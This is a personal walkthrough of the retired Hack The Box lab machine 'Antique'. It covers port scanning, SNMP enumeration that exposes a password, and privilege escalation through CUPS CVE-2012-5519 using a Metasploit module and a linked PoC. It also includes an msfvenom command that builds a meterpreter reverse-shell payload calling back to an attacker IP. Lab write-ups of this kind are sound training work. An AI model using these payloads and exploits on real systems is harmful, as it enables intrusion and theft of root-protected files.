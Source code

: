 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - CUPS
  - SMTP
  - TELNET
creation date: 2021-09-27
Date Completed: 2024-08-31
CVEs: CVE-2012-5519
URL: https://app.hackthebox.com/machines/400
IP: 10.129.44.204
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

```
sudo nmap 10.129.44.204 -T4 -sU -p 161 -A
```

```
161/udp open  snmp    SNMPv1 server (public)
```

### udp-proto-scanner
```session
udp-proto-scanner.pl 10.129.44.204
```

Received reply to probe snmp-public (target port 161) from 10.129.44.204:161: 302902010004067075626c6963a21c02044c33a756020100020100300e300c06082b060102010105008100

### SNMP

![[Pasted image 20240831100516.png]]
![[Pasted image 20240831100541.png]]


```
P@ssw0rd@123!!123
```

```
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.129.44.204
```

## Foothold

![[Pasted image 20240831100600.png]]
![[Pasted image 20240831100727.png]]

## Get a better Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=1337 -f ELF > shell
```

## Privilege Escalation

`ls -lah /etc/`
cups stood out to me.
![[Pasted image 20240831104656.png]]

`ss -antp`
tells me there's website running
![[Pasted image 20240831104735.png]]


i tried portfwd in metasploit but it didn't work. so I curled the website on the victim system which got me the cups version. from there i reassured CUPS v1.6.1 and found a CVE, PoC, and a metasploit module

![[Pasted image 20240831104841.png]]
![[Pasted image 20240831104856.png]]

```
post/multi/escalate/cups_root_file_read
```

also works:
https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh
